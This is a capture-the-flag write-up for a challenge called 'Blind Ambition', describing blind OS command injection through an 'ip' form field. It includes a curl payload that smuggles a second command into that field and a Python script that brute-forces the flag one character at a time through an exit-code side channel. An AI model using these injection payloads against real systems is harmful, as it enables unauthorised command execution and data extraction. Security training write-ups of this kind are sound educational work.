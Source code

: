 # 6 - Blind Ambition

Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

http://rsxc.no:9010

# Note

Number 3 to 6 I used a few minutes to check out, then I randomly tested if the flag was unprotected as it is in the same folder as the `index.php` and sure enough. I could just access `flag.txt` by adding that to the URL. So my points skyrocketed at that moment. 

I knew that was not the intended solution so even if I got the flag I wanted to complete it "legally" before continuing so I could write a proper writeup.

**Update**: This was fixed later on and flag is now in `/flag.txt`. This writeup still works the same just add a `/`

# Writup

I tested a few commands and saw I got a different output now. Here I can add an exit code.

```console
toffe@kali:~$ curl http://rsxc.no:9010 -d "ip=
exit 0"
```

This seems to return `Host is up, the results will be sent via e-mail.` and `down` if the last exit code is higher than 0.. Verified by `exit 0` and `exit 1`. So what mail? I tried for a long time to "intercept" the e-mail. But found nothing, then it dawned upon me that I get the exit code for the last command. Which allowes me to brute force the flag file with grep. If grep fails the "letter" is not there.

Side Channel attack at it's best. Using only uppercase as all the other flags have this. Also I know the flag starts with `RSXC{` then I can just grep for that + a letter and see if exit code is 0 or 1.

Had to use `.` and regexp grep as `{}` is blocked but `.` matches "any character".

```python
import string
import requests

flag = "RSXC."

while True:
    for char in string.ascii_uppercase+"_":
        url = 'http://rsxc.no:9010'
        data = {'ip': f"\ngrep -i {flag}{char} flag.txt"}
        response = requests.post(url, data=data)
        if response.status_code == 200:
            if response.text.find("up") > 0:
                flag += char
                print(flag)
```

Now I get the flag slowly but truely.

# Flag

```
RSXC{I_SEE_YOU_MANAGED_TO_SEND_THE_RESPONSE_OUT_OF_BAND}
```